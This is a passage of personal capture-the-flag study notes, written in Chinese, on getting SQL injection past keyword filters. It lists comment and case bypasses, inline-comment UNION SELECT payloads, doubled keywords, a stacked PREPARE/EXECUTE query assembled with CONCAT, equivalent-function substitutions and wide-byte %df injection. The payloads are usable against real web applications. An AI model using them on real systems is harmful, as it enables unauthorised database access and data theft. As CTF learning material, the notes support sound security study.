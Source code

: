     > and=&&  or=||   xor=|   not=!
    
+ ###### **绕过注释符号（#，--(后面跟一个空格））过滤**

+ ###### **=绕过**

  使用like 、rlike 、regexp 或者 使用< 或者 >

+ ###### **绕过union，select，where等**

  1. 注释符绕过

     > //，-- , /**/, #, --+, -- -, ;,%00,--a
  
   用法:
  
   ```sql
     U/**/ NION /**/ SE/**/ LECT /**/user，pwd from user
   ```
  
   
  
  2. 大小写绕过
  
  3. 内联注释绕过
  
     >id=-1'/*!UnIoN*/ SeLeCT 1,2,concat(/*!table_name*/) FrOM /*information_schema*/.tables /*!WHERE *//*!TaBlE_ScHeMa*/ like database()#
  
  4. 双关键字绕过(若删除掉第一个匹配的union就能绕过)
  
     > id=-1'UNIunionONSeLselectECT1,2,3–-
     
  5. 拼接绕过
  
     [select被过滤]: /home/carrym/ctf-notes/web/select被过滤/wp.txt
  
     >-1';use supersqli;set @sql=concat('s','elect `flag` from `1919810931114514`');PREPARE stmt1 FROM @sql;EXECUTE stmt1;#
  
     Notes:
     1、set 语句为已存在的变量赋值，PREPARE创建SQL语句，EXECUTE执行SQL语句。
     2、sql中有一些保留字，当你的字段名是它的保留字时，这个时候sql语句的字段不加``就会报错。
  
+ ###### **等价函数绕过**

    |    过滤函数     |    等价函数    |
    | :-------------: | :------------: |
    |  hex()、bin()   |    ascii()     |
    |     sleep()     |  benchmark()   |
    |   concat_ws()   | group_concat() |
    | mid()、substr() |  substring()   |
    |     @@user      |     user()     |
    |    @@datadir    |   datadir()    |

+ ###### **宽字节注入**

   1. %df
   2. 将`\'`中的`\`过滤
